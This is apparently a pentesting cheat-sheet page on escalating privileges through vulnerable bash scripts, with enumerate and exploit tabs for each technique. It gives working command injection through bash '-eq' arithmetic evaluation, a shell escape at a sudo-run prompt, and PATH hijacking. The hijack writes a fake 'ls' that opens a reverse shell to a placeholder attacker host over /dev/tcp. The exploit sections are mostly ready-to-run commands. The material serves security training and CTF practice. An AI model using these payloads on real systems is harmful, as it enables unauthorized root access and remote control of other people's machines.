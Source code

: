 # Bash

## Theory

Bash scripting is a powerful tool used by system administrators and developers to automate tasks and streamline processes on Unix-like systems. However, like any software, bash scripts can be vulnerable to various security issues, which, if exploited, can lead to privilege escalation and unauthorized access.

## Practice

### Shell In Prompt

{% tabs %}
{% tab title="Enumerate" %}
If a bash script executes `read -p`. We can input `/bin/bash -i` to get a shell as another user.

```bash
$ cat /usr/bin/vuln-script.sh

#!/bin/bash
read -p "What's you name: "
```
{% endtab %}

{% tab title="Exploit" %}
We can input `/bin/bash -i` to get a shell.

```bash
$ sudo /usr/bin/sudo-script.sh

What's you name: /bin/bash -i
```
{% endtab %}
{% endtabs %}

### Bash eq

{% tabs %}
{% tab title="Enumerate" %}
If a bash script use the `-eq` comaparison, it's vulnerable to arbitrary command execution.

```bash
$ cat /usr/bin/vuln-script.sh

#!/bin/bash
read -rp "Enter guess: " num

if [[ $num -eq 42 ]]
then
  echo "Correct"
else
  echo "Wrong"
fi
```
{% endtab %}

{% tab title="Exploit" %}
To execute arbitrary command, answer this question as below. We have to Inject arbitrary command before the correct number (42).

```bash
sudo /bin/bash /opt/example.sh
Enter guess: a[$(/bin/bash -p >&2)]+42

#Or execute your own malicious script
sudo /bin/bash /opt/example.sh
Enter guess: a[$(/tmp/shell.elf)]+42
```

{% hint style="info" %}
`a[$(/tmp/shell.elf)]` will allow us, by evaluating the content of the array, to execute our script
{% endhint %}
{% endtab %}
{% endtabs %}

### No Command Path Exploit

{% tabs %}
{% tab title="Enumerate" %}
If a bash script executes another command **without specifying the path.** We can abuse it and get a privilege escalation.

```bash
$ cat /usr/bin/vuln-suid-script.sh

#!/bin/bash
ls /root/var/file
```
{% endtab %}

{% tab title="Exploit" %}
We can generate a malicious file in the `/tmp` folder named as the command called without full path

```bash
#Generate a payload
echo "bash -c '/bin/bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'" > /tmp/ls
chmod +x /tmp/ls

#Change Path env variable and execute the script
export PATH=/tmp:$PATH
/usr/bin/vuln-suid-script.sh
```
{% endtab %}
{% endtabs %}



